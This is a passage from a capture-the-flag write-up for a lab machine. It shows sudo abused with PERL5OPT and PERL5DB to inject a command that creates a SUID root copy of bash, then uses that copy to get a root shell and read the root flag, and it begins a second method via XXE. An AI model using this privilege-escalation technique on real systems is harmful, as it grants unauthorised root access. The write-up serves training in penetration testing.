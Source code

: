     
    jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='system("cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 6777 /tmp/0xdf")' /opt/monitor.sh 
    No DB::DB routine defined at /usr/bin/xml_pp line 9.
    No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
    END failed--call queue aborted.
    

The file now exists, is owned by root, and is SetUID and SetGID:

    
    
    jack@clicker:~$ ls -l /tmp/0xdf 
    -rwsrwsrwx 1 root root 1396520 Jan 25 20:36 /tmp/0xdf
    

I’ll run it (not forgetting `-p` to not drop privs) and get an effective root
shell:

    
    
    jack@clicker:~$ /tmp/0xdf -p
    0xdf-5.1# id
    uid=1000(jack) gid=1000(jack) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),1000(jack)
    

And the flag:

    
    
    0xdf-5.1# cat /root/root.txt
    c9b19375************************
    

### Method #2 via XXE

#### Configure Proxy

The intended path for this box is to use the `http_proxy` variable. This is an
option for `curl` that is detailed on the `curl` [man`
page](https://curl.se/docs/manpage.html):

![image-20240127180745026](../img/image-20240127180745026.png)
